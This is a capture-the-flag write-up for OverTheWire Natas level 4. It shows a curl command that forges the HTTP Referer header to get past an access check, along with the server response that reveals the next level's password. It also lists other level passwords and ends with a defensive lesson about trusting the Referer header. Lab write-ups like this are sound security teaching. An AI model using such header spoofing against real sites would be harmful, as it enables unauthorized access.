 ```yaml
---
category: natas
---
```

website: http://natas4.natas.labs.overthewire.org/ (password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)

Go to the website and it says <small>Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"</small>. Click "Refresh page" link, now it says <small>visiting from "http://natas4.natas.labs.overthewire.org/"</small>. This info is related with HTTP headers in an HTTP request, particularly the HTTP `referer` field. This field indicates the last page the user was on. By checking this field, the new webpage can see where the request originated (i.e., where a user clicked the link).

According to the prompt <small>authorized users should come only from "http://natas5.natas.labs.overthewire.org/"</small>, I think of tampering the `referer` field in my HTTP request to make it look like from the mentioned URL.

To hijack a forged URL referer, I used the <em>curl</em> command tool. Here is how it looks like. As you can see, we now have the natas5's password in the response:
```console
bash-5.0$ curl http://natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ@natas4.natas.labs.overthewire.org/ --referer "http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

<strong>CONCLUSION</strong>

Be careful if your website uses HTTP `referer` field for authentication or authorization. You cannot solely rely on such a field because an attacker can spoof it.

<strong>References</strong>

- https://en.wikipedia.org/wiki/HTTP_referer
- https://developer.mozilla.org/en-US/docs/Web/Security/Referer_header:_privacy_and_security_concerns
- cURL manual: https://curl.se/docs/manual.html
